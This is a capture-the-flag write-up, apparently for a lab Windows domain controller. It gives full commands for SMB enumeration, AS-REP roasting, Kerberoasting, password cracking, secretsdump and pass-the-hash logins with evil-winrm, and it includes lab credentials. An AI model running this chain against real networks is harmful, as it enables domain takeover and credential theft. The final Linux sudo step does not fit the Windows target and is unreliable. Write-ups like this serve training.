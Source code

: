 ```yaml
---
layout: post
author: Fr4nSec
tags: [Windows, SMB,]
---
```


## Objectives

- Obtain the user flag
- Obtain the system flag (root)

## Recon

Let's scan the target IP address..

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.10.216.196
```
![scan1](/images/scan1.jpg)

Once we have a list of open ports, let's scan those ports more in depth.

```
nmap -p 53,135,139,389,445,464,636,3268,5985,9389 -sCV 10.10.216.196 > PortScan
cat PortScan
```

![scan2](/images/scan2.jpg)

We can see some information like domain name and the host.

- Domain: vulnnet-rst.local0
- Host: WIN-2BO8M1OE1M1

Port 445 (SMB) is open. Let's see what we can retrieve from there.

```
smbmap -H 10.10.216.196 -u anonymous
```

![smb1](/images/smb1.jpg)




## Exploitation

IPC$ seems to be readable. That means we might be able to ennumerate names of domain accounts. Let's try:

```
impacket-lookupsid anonymous@10.10.216.196
```

![smb2](/images/smb2.jpg)

We can see some user names, let's strip out the data we don't need. Copy the result to a file and run the below to keep only the user names.

```
cat fullinfo.txt | grep SidTypeUser | awk -F'\' '{print $2}' | awk -F'(' '{print $1}'
```

![users1](/images/users.jpg)

Now, having a list of users, let's try to harvest AS_REP responses to see if we can get a hash. (The IP changed because i had to restart the target machine).

```
impacket-GetNPUsers 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip 10.10.171.250
```
![hash1](/images/hash1.jpg)

We obtained the hash for the user t-skid. We can try brute force it:

```
john hash1 --wordlist=/home/kali/rockyou.txt 
```

![crackedhash](/images/crackedhash.jpg)

Now let's try to find some SPN associated with user accounts. Result should be a file with encrypted password(s).

```
impacket-GetUserSPNs 'VULNNET-RST.local/t-skid:tj072889*' -outputfile hashes -dc-ip 10.10.171.250 
```

![GetUserSPNs](/images/SPN.jpg)

![hash2](/images/hash2.jpg)

Now we can try crack it the same way as before:

![cracked2](/images/cracked2.jpg)

We have now the cracked password for the account **'enterprise-core-vn'**. Let's attempt a remote connection:

```
evil-winrm -i 10.10.171.250 -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' 
```

![remote](/images/remote.jpg)

It worked! Let's try find the flag. Usually is in the same folder or near.

![flag1](/images/flag1.jpg)

And we got the first flag. 

Now let's map the SMB again but this time with a valid user.

```
smbmap -H 10.10.171.250 -u enterprise-core-vn -p 'ry=ibfkfv,s6h,'
```

![smb3](/images/smb3.jpg)

We get shares that are now readable. Let's dig more.

```
smbclient \\\\10.10.171.250\\SYSVOL -U 'enterprise-core-vn%ry=ibfkfv,s6h,'
```

![sysvol](/images/sysvol.jpg)

We found some interesting folders. Let's dig.

![scripts](/images/script.jpg)

We found a script and when we check what does it do, we find some credentials for user **a-whitehat**!

![scriptcreds](/images/scripcreds.jpg)

Let's find out more:

```
evil-winrm -i 10.10.31.71 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'
```

It works! and if we run the below, we see the user is DOMAIN ADMIN!

![domainadmin](/images/domainadmin.jpg)

I found the system.txt within 'C:\Users\Administrator\Desktop', but the file itself is not readable by the user. We can use secretsdump to try dumping the Administrator account.

```
impacket-secretsdump VULNNET-RST.local/a-whitehat:bNdKVkjv3RR9ht@10.10.31.71
```

We found all hashes but what we really want is the Administrator one that we got here.

![admin](/images/admin.jpg)

We don't need to crack the hash, we can just use it with Evil-WinRM:

```
evil-winrm -i 10.10.31.71 -u 'Administrator' -H 'c2597747aa5e43022a3a3049a3c3b09d'
```

It worked! And now we can read the system.txt file to grab the system flag.







## Privilege escalation

Let's check if sudo has any additional configuration..

```
sudo cat /root/root.txt
```
